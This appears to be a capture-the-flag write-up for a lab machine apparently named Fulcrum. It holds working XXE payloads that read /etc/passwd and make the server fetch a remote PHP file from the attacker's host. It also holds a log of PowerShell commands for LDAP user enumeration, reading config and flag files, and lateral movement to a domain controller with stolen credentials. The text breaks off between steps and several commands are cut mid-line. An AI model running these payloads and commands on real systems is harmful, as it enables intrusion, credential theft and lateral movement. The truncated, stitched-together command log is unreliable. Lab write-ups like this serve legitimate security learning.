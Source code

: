 
### Initial Foothold

The api at 56423 screams xxe

Lets create a xml file and post it to check if there is something fishy going on

xml.txt
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<r>&sp;</r>
```

```
curl -d @xml.txt http://10.10.10.62:56423
{"Heartbeat":{"Ping":"Pong"}}
```

It doesnt give us any kind of data, but there aint no errors either :confused:

From our notes earlier we know that there was a page on port 4 which could have had RFI however it wasnt working

There maybe a firewall rule not allowing it to be done from a external connection

So if we try and do a blind XXE and call the page internally, it just might work

Creating a new xml.txt
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.171/dotatest.php">
]>
<r>&sp;</r>
```

Starting a SimpleHTTPServer
```
python -m SimpleHTTPServer 80
```

Exec curl
```
curl -d @xml.txt http://10.10.10.62:56423
```

BOOM! We got something
```
10.10.10.62 - - [13/Dec/2017 03:06:47] "GET /dotastest.php.php HTTP/1.0" 200 -
```

This means that the RFI does work when called internally.

We also see that it appends an extra ".php" in the GET request, so we can change the xml file as per the requirement


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command